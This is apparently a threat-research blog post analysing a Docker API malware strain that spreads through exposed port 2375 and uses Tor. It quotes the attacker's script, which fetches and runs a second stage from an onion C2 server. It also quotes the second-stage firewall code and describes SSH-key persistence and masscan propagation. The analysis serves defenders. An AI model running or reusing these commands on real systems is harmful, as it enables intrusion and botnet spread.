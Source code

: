 ```yaml
---
title: "Docker API Malware Variant with Botnet Capabilities"
date: 2025-09-11
draft: false
tags: ["docker", "malware", "tor", "api", "threat-hunting"]
---
```


### Initial Exploitation

The attackers start by sending an initial HTTP request to a Docker remote API server to create a new container. In this case, the Akamai Threat Hunting team used the Beelzebub honeypot to discover this threat. The attacker then creates a new container image running Alpine Linux that mounts the host's filesystem and executes a base64-encoded script.

### Script executed

```bash
apk update && apk add curl tor && tor & \
while ! curl -fs --proxy socks5h://localhost:9050 https://checkip.amazonaws.com; do sleep 10; done; \
curl -fs --proxy socks5h://localhost:9050 http://wtxqf54djhp5pskv2lfyduub5ievxbyvlzjgjopk6hxge5umombr63ad[.]onion/static/docker-init.sh | sh
```

The script installs "curl" and "tor", then starts a Tor daemon "tor&amp;", and attempts to obtain the public IP address of the victim by looping through every 10 seconds until the IP is requested through the Tor proxy (curl -fs --proxy&nbsp;socks5h://localhost:9050 https://checkip.amazonaws.com; do sleep 10; done;). The attacker is using a SOCKS5 proxy locally to send data to the Tor daemon, which then gets sent to the Tor network and then to the ".onion" C2. The attacker uses this C2 to pull their next-stage script (docker-init.sh) and execute it (curl -fs --proxy socks5h://localhost:9050 http://wtxqf54djhp5pskv2lfyduub5ievxbyvlzjgjopk6hxge5umombr63ad[.]onion/static/docker-init.sh).

Second Stage: docker-init.sh

This script attempts to block access to the Docker API port (2375) using whichever firewall utility it finds:
```sh
PORT=2375
PROTOCOL=tcp

for fw in firewall-cmd ufw pfctl iptables nft; do
  if command -v "$fw" >/dev/null 2>&1; then
    case "$fw" in
      firewall-cmd)
        firewall-cmd --permanent --zone=public \
          --add-rich-rule="rule family='ipv4' port port='${PORT}' protocol='${PROTOCOL}' reject"
        firewall-cmd --reload
        ;;
      ufw)
        ufw deny "${PORT}/${PROTOCOL}"
        ufw reload
        ;;
      pfctl)
        echo "block drop proto ${PROTOCOL} from any to any port ${PORT}" | pfctl -a custom_block -f -
        ;;
      iptables)
        iptables -I INPUT 1 -p "${PROTOCOL}" --dport "${PORT}" -j DROP
        ;;
      nft)
        if ! nft list tables | grep -q "inet"; then
          nft add table inet
          nft add chain inet filter { type filter hook input priority 0 \; }
        fi
        nft add rule inet filter input "${PROTOCOL}" dport "${PORT}" drop
        ;;
    esac
    break
  fi
done
```

The docker-init.sh script first adds the attacker's public key under the SSH authorized public keys (/root/.ssh/authorized_keys) and installs tools for propagation, persistence, and evasion, like masscan (internet-scale port scanner), libpcap (capture network data), libpcap-dev, zstd (decompress payloads), and torsocks (reroute IP traffic from CLI to Tor). The script also creates a cron job that executes every minute and iterates over multiple firewall utilities to block access to port 2375 (used by Docker API).

The attacker then sends an HTTP POST request back to the .onion C2 server to let the attacker know that the compromise was successful. Once this communication is established, the attackers download a binary from another Tor site onto the victim. This binary includes a dropper that contains the content it wants to drop, preventing it from communicating with the internet. The dropper drops a file (dockerd) that executes a masscan that searches for other open Docker API open ports (2375), and if it finds one, it will go through the same container creation process. The attacker's primary goal, which was not seen by earlier variants of the malware, is an initial version of a complex botnet, but the researchers have not found a complete version of it so far.

> Takeaways: Expose as few services as possible to the internet and isolate your Docker network from other parts of your network.

## References

- [BleepingComputer — Hackers hide behind Tor in exposed Docker API breaches](https://www.bleepingcomputer.com/news/security/hackers-hide-behind-tor-in-exposed-docker-api-breaches/)  
- [Akamai — Off Your Docker: Exposed APIs Are Targeted in New Malware Strain](https://www.akamai.com/blog/security-research/new-malware-targeting-docker-apis-akamai-hunt)  
- [Trend Micro — Tor-enabled Docker exploit](https://www.trendmicro.com/en_fi/research/25/f/tor-enabled-docker-exploit.html)  